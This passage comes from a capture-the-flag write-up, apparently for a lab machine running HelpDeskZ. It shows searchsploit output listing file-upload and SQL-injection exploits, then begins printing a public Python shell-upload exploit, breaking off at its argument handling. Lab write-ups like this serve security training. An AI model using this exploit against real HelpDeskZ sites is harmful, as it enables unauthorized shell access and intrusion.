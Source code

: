 I see that I have a few authenticated exploits:

![](assets/images/2024-01-20-help-writeup-image-6.png)

So I will attempt to exploit them now with my new credentials:

1. Search and download available exploits:
      ```console
      searchsploit helpdeskz
      # HelpDeskZ 1.0.2 - Arbitrary File Upload                                        | exploits/php/webapps/40300.py
      # HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download | exploits/php/webapps/41200.py

      searchsploit -m exploits/php/webapps/40300.py
      #   Exploit: HelpDeskZ 1.0.2 - Arbitrary File Upload
      #       URL: https://www.exploit-db.com/exploits/40300
      #      Path: /usr/share/exploitdb/exploits/php/webapps/40300.py
      # File Type: troff or preprocessor input, ASCII text, with CRLF line terminators
      ```
      - __*40300.py*__
        ```py
        ...
        
        import hashlib
        import time
        import sys
        import requests

        print 'Helpdeskz v1.0.2 - Unauthenticated shell upload exploit'

        if len(sys.argv) < 3:
            print "Usage: {} [baseUrl] [nameOfUploadedFile]".format(sys.argv[0])
            sys.exit(1)

        helpdeskzBaseUrl = sys.argv[1]
        fileName = sys.argv[2]
